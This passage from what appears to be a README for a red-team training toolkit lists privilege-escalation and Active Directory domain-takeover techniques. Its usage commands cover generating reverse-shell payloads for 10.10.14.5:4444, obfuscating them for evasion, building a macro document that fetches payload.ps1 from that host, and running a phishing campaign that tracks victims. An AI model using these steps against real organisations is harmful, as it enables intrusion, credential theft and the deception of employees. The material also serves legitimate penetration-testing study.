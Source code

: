 ### Privilege Escalation
- **Kernel exploits** - OS-level escalation
- **Service misconfigurations** - Weak permissions
- **Token impersonation** - Privilege theft
- **Sudo abuse** - Linux escalation
- **DLL hijacking** - Library injection
- **Unquoted service paths** - Windows exploitation

### Domain Dominance
- **Kerberoasting** - Service account attacks
- **AS-REP Roasting** - Pre-auth disabled accounts
- **DCSync** - Domain controller replication
- **Golden tickets** - TGT forging
- **Silver tickets** - TGS forging
- **AdminSDHolder** - Permanent admin access

## 📖 Usage Examples

### Complete Reconnaissance
```bash
# Run full recon suite
python3 01-reconnaissance/master_recon.py target.com "Target Corporation"

# This will:
# - Enumerate subdomains
# - Run Google dorks
# - Harvest emails
# - Fingerprint technologies
# - Generate comprehensive report
```

### Generate Weaponized Payloads
```bash
# Create payload arsenal
python3 02-weaponization/payload_generator.py 10.10.14.5 4444

# Obfuscate for evasion
python3 02-weaponization/advanced_obfuscator.py payloads/shell.ps1

# Create malicious document
python3 02-weaponization/macro_generator.py --url http://10.10.14.5/payload.ps1
```

### Launch Phishing Campaign
```bash
# Set up phishing infrastructure (Day 4)
python3 03-delivery/phishing_framework.py --target targets.txt --template corporate

# Track engagement
python3 03-delivery/track_victims.py --campaign campaign_001
```
